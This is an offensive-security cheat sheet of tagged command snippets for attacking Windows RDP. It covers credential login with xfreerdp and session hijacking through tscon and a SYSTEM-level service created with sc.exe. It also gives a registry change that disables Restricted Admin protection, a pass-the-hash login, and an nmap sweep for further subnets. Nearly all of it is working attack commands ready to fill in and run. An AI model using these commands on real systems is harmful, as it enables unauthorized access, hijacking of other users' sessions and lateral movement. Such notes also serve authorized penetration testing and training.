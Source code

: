 ## attacking common services - rdp - rdp login xfreerdp
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
xfreerdp /u:<username> /p:<password> /v:<ip>
```

## attacking common services - rdp - rdp session hijacking (once in the target with SYSTEM privs)
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
whoami
query user
tscon #<TARGET_SESSION_ID> /dest:#<OUR_SESSION_NAME>

Windows service that, by default, will run as Local System and will execute any binary with SYSTEM privileges:

sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"
net start sessionhijack
(a new terminal as that other user will open)
```

## attacking common services - rdp - rdp PtH pass the hash (disable Restricted Admin Mode)
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
Restricted Admin Mode, which is disabled by default, should be enabled on the target host; otherwise, we will be prompted with the following error:

"Account Restrictions are preventing this user from sign in..."

This can be enabled by adding a new registry key DisableRestrictedAdmin (REG_DWORD) under HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa. It can be done using the following command:

reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

## attacking common services - rdp - rdp PtH pass the hash xfreerdp
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
xfreerdp /v:<targetIP> /u:<user> /pth:<hash_300FF5E89EF33F83A8146C10F5AB9BB9>
```

## from job - discover more subnets - nmap
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
sudo nmap -sn <IP.0.0>/16
```
